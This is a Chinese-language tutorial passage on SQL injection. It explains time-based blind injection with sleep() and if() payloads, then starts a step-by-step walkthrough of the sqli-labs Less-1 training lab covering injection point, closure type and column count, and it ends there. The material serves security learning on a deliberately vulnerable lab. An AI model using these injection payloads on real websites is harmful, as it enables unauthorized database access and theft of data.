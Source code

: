 **关键函数：**

**sleep()**

函数sleep()参数为休眠时长，以秒为单位，可以为小数

(开发者工具中可以查询响应时间)

![image](https://github.com/user-attachments/assets/517b688a-430a-4c2a-b86b-e23dd9d583de)

通过and连接sleep(3)

如输入?id=1 and sleep(3)--+如果耗时3s则代表为数字型注入，反之为字符型

如输入?id=1' and sleep(3)--+如果耗时3s则代表为'闭合，反之则不是

**if()**

select if(a,sleep(0),sleep(3))

意思是如果a为真，则响应0秒钟；如果a为假，则响应3秒钟

结合布尔盲注，可以写出以下指令

?id=1' and if(length(select database())>5,sleep(0),sleep(3))--+

?id=1' and if(ascii(substr((select database()),1,1))>100,sleep(0),sleep(3))--+

...

# sqli_labs
## Less-1
进入页面后提示为id赋值

![image](https://github.com/user-attachments/assets/6504e927-2df9-4e51-b334-abc876dc70a3)

为id赋值2，得到对应的查询数据，这就是注入点

![image](https://github.com/user-attachments/assets/56ce2bde-4799-4cfb-901c-3d1921143dae)

接着判断是字符型还是数字型注入，令id=2-1，发现没有变化，所以是字符型注入

![image](https://github.com/user-attachments/assets/377693ff-f548-46bb-a8d2-61f921148a6c)

接着去找闭合方式，根据报错信息可知是单引号闭合

![image](https://github.com/user-attachments/assets/4ed1eb5d-bd8c-4666-b7cb-8f6c5572e1e4)

![image](https://github.com/user-attachments/assets/e848c95d-cb17-4825-a312-58783409aed2)

接着判断查询列数，得到是三列

![image](https://github.com/user-attachments/assets/01f26280-a623-4919-b621-b41041b43211)

![image](https://github.com/user-attachments/assets/6783c760-5050-4a77-bbb2-3df30015559a)
